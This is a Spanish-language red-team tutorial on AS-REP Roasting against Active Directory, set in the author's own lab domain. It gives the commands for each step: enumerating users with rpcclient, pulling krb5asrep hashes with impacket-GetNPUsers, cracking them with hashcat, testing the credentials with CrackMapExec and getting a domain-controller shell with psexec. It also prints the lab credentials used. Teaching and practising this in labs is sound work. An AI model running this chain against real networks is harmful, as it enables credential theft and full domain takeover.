```yaml
---
description: >-
  Este ataque se aprovecha de los usuarios que tienen activa la opción de "No
  requiere preautenticación de Kerberos".
---
```


# AS\_REP ROASTING

## INTRODUCCIÓN

{% hint style="info" %}
Este ataque está relacionado a las [malas prácticas](https://ajcruz15.gitbook.io/red-team/active-directory-hacking/creando-un-laboratorio-de-ad/3.-misconfiguraciones-importantes):

* **2. Desactivar el Firewall de Windows.**
* **3. Desactivar las protecciones del Antivirus de Windows Defender.**
* **5. Asignar un SPN al usuario creado.**
* **9. Marcar la Opción "No requiere preautenticación de Kerberos".**
{% endhint %}

### Esquema de trabajo

Vamos a explotar el siguiente esquema.

En una red empresarial no hemos conseguido acceso a ningún activo por ahora, sin embargo, tenemos unos credenciales de usuario sin privilegios (vgarcia:Password2). Como parte de nuestra rutina tratamos de explotar un AS\_REP Roasting.

{% hint style="info" %}
La base de este ataque está en usuarios que tengan activa la Opción "No requiere preautenticación de Kerberos". Esto hace que el protocolo Kerberos expida un Ticket-Granting Ticket en nombre de dicho usuario sin comprobar su identidad.

Por tanto, cualquiera puede solicitar un **KRB\_AS\_REQ** en nombre del usuario y Kerberos devolverá un **KRB\_AS\_REP** que, recordemos, incluye una **Session Key** que está encriptado con el secreto del usuario.

Por tanto, tenemos el Hash krb5asrep del usuario que podemos crackear facilmente, siempre y cuando la contraseña no sea muy robusta.
{% endhint %}

Para entender más en profundidad estos conceptos puede leer el siguiente artículo:

{% content-ref url="../conceptos/conceptos-importantes-antes-de-continuar.md" %}
[conceptos-importantes-antes-de-continuar.md](../conceptos/conceptos-importantes-antes-de-continuar.md)
{% endcontent-ref %}

### Herramientas necesarias

#### RPCClient

Herramienta para ejecutar el cliente de MS-RPC. Viene instalada por defecto en Linux.

{% embed url="https://web.mit.edu/darwin/src/modules/samba/docs/htmldocs/rpcclient.1.html" %}

#### CrackMapExec <a href="#crackmapexec" id="crackmapexec"></a>

Es una herramienta de post-explotación que se aprovecha de protocolos y características propias de los entornos de Directorio Activo para obtener una gran cantidad de información sobre los mismos.

Utiliza **Impacket** y **Powersploit Toolkit**

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

#### **Impacket**

Es una colección de clases de Python para trabajar con protocolos de red. Está pensada para obtener control a bajo nivel de los paquetes utilizados por algunos protocolos y, en algunos casos como SMBv1, la propia implementación del protocolo en sí mismo.

Concretamente para este ataque vamos a utilizar **impacket-GetNPUsers**

{% embed url="https://github.com/SecureAuthCorp/impacket" %}

#### PowerSploit Toolkit <a href="#powersploit-toolkit" id="powersploit-toolkit"></a>

Es una colección de scripts de Powershell orientados a ayudar a pentesters en su proceso. Éste repositorio se encuentra deprecated.

{% embed url="https://github.com/PowerShellMafia/PowerSploit" %}

#### Hashcat <a href="#hashcat" id="hashcat"></a>

Es el crackeador de hashes más rápido del mundo actualmente. Puede aprovecharse de la pontecia de una GPU.

{% embed url="https://github.com/hashcat/hashcat" %}

#### **Resumen**

* Vamos a comprobar si existen usuarios con la opción "No requiere preautenticación de Kerberos" activada y a obtener sus TGTs.
* Vamos a crackear estos TGTs.
* Vamos a comprobar el alcance de los credenciales obtenidos.
* Vamos a acceder con una shell interactiva.

## EXPLOIT

### 1. Comprobar usuarios NP

Lo primero que debemos hacer es obtener los usuarios que tiene el Active Directory.

Con **rpcclient** podemos enumerar los usuarios del AD facilmente:

`rpcclient -U "vgarcia" -W hackpoc 192.168.1.100 -c enumdomusers`

![Obteniendo los usuarios de un Dominio.](../../.gitbook/assets/as\_rep1.png)

Los guardamos en un archivo users.txt (Para acelerar el proceso podemos utilizar el siguiente oneliner:

`echo "Copiamos la salida del comando anterior" | grep '\[.*?\]' | grep -v '0x' | tr -d '[]'`

Una vez lo tenemos almacenados utilizamos impacket-GetNPUsers para comprobar cuantos de estos tienen la opción NP activa:

`impacket-GetNPUsers hackpoc/ -usersfile users.txt -format hashcat -outputfile as_rep.txt`

![Hash krb5asrep conseguido](<../../.gitbook/assets/as\_rep2 (2) (1).png>)

### 2. Crackear el Hash

A continuación tratamos de crackear el Hash utilizando Hashcat (aunque tambien se puede utilizar john).

1. Para averiguar el modo en el que trabaja hashcat con estos hashes sacamos: `hashcat --example-hashes | grep "krb5asrep" -B 2`&#x20;
2. Utilizamos hashcat para crackear el hash. `hashcat -m 18200 -a 0 as_rep.txt /usr/share/wordlists/rockyou.txt`

![Contraseña crackeada SVC-SQLService:MYpassword123#](../../.gitbook/assets/as\_rep3.png)

### 3. Comprobar alcance de credenciales

Utilizamos CrackMapExec para comprobar si los credenciales obtenidos tienen capacidad de PSExec con alguno de los activos de la empresa.

`cme smb 192.168.1.0/24 -u "SVC-SQLService" -p "MYpassword123#"`

![El usuario SVC-SQLService es administrador de dominio ¡Premio!](../../.gitbook/assets/as\_rep4.png)

### 4. shell interactiva con el DC

El usuario que hemos obtenido es un usuario administrador de dominio por lo que ahora tenemos capacidad de PSExec al DC.

`impacket-psexec hackpoc/SVC-SQLService:MYpassword123#@192.168.1.100 cmd.exe`

![¡Premio!](<../../.gitbook/assets/imagen (83).png>)

## REFERENCIAS

{% embed url="https://en.hackndo.com/kerberos-asrep-roasting/%0Ahttps://www.youtube.com/watch?v=KYFlvFfh-Js&list=PLlb2ZjHtNkpg2Mc3mbkdYAhEoqnMGdl2Z&index=2" %}
